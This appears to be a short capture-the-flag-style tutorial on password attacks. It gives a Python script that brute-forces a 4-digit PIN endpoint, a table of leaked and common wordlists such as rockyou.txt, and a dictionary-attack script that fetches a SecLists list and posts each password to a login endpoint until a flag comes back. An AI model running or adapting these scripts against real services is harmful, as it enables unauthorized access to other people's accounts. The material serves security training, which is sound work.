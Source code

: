 # Brute-forcing a 4-digit PIN

The target app has an endpoint `/pin` that checks a 4-digit PIN.
We’ll brute-force from `0000` to `9999` with Python.

<pre>import requests

ip = "127.0.0.1"  # Change to target IP
port = 1234       # Change to target port

for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    print(f"Attempted PIN: {formatted_pin}")
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")
    if response.ok and 'flag' in response.json():
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break</pre>


# Dictionary Attacks

A dictionary attack uses a pre-made list of possible passwords instead of testing every combination like brute force.
It works well because many people choose predictable passwords (e.g., words, names, patterns).

| Wordlist                                  | Description                  | Use                        | Source         |
| ----------------------------------------- | ---------------------------- | -------------------------- | -------------- |
| rockyou.txt                               | Millions of leaked passwords | Password cracking          | RockYou breach |
| top-usernames-shortlist.txt               | Common usernames             | Quick username brute force | SecLists       |
| xato-net-10-million-usernames.txt         | 10M usernames                | Thorough brute force       | SecLists       |
| 2023-200\_most\_used\_passwords.txt       | Top 200 passwords            | Target common reuse        | SecLists       |
| Default-Credentials/default-passwords.txt | Default logins               | Try default creds          | SecLists       |


**Dictionary Attack Code:**

<pre>import requests

ip = "127.0.0.1"  # Change to target IP
port = 1234       # Change to target port

# Get common password list
passwords = requests.get(
    "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt"
).text.splitlines()

# Try each password
for password in passwords:
    print(f"Attempted password: {password}")
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break</pre>
